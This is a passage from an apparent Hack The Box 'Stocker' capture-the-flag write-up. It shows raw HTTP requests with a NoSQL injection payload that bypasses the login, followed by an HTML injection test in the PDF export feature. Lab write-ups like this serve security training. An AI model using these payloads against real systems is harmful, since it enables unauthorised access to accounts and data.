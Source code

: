 We can see that it uses Express which is usually part of the MERN stack - MongoDB, ExpressJS, ReactJS, and Node.js.
With that we can try nosql injection on the login page. 

```
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 29
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3AzZ5bv6pSMJi52yO9jH3sIliGNK5DfAnO.F%2BmMLf09fnL7xSjIcDNgxO3JhU6dPEXunSZzKOldnBc
Upgrade-Insecure-Requests: 1

{"username": {"$ne": null}, "password": {"$ne": null} }
```

And we're successfully in. There is a functionality to export order to pdf.

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Stocker/images/IMG3.png?raw=true)


```
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 162
Connection: close
Cookie: connect.sid=s%3AzZ5bv6pSMJi52yO9jH3sIliGNK5DfAnO.F%2BmMLf09fnL7xSjIcDNgxO3JhU6dPEXunSZzKOldnBc

{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<h1>test</h1>","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```
